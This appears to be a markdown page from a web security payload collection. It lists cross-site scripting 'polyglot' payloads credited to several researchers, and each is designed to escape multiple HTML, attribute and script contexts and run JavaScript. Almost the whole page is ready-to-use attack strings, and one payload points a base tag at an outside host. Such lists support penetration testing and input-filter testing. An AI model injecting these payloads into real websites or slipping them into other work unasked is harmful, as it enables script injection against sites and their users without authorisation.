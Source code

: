 # Polyglot XSS

* Polyglot XSS - 0xsobky
    ```javascript
    jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
    ```

* Polyglot XSS - Ashar Javed
    ```javascript
    ">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
    ```

* Polyglot XSS - Mathias Karlsson
    ```javascript
    " onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
    ```

* Polyglot XSS - Rsnake
    ```javascript
    ';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
    ```

* Polyglot XSS - Daniel Miessler
    ```javascript
    ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
    “ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
    '">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
    javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
    javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
    javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
    javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
    javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
    javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
    javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
    --></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
    /</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
    javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
    /</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
    ```


*  Polyglot XSS - [@s0md3v](https://twitter.com/s0md3v/status/966175714302144514)
    ![https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg](https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg)
    ```javascript
    -->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
    ```

    ![https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large](https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large)
    ```javascript
    <svg%0Ao%00nload=%09((pro\u006dpt))()//
    ```

* Polyglot XSS - from [@filedescriptor's Polyglot Challenge](https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/)
    ```javascript
    // Author: crlf
    javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>

    // Author: europa
    javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/-->&lt;svg/onload=/*<html/*/onmouseover=alert()//>

    // Author: EdOverflow
    javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

    // Author: h1/ragnar
    javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template>&lt;svg/onload='/*--><html */ onmouseover=alert()//'>`
    ```

* Polyglot XSS - from [brutelogic](https://brutelogic.com.br/blog/building-xss-polyglots/)
    ```javascript
    JavaScript://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->
    ```


## References

- [Building XSS Polyglots - Brute - June 23, 2021](https://brutelogic.com.br/blog/building-xss-polyglots/)
- [XSS Polyglot Challenge v2 - @filedescriptor - August 20, 2015](https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/)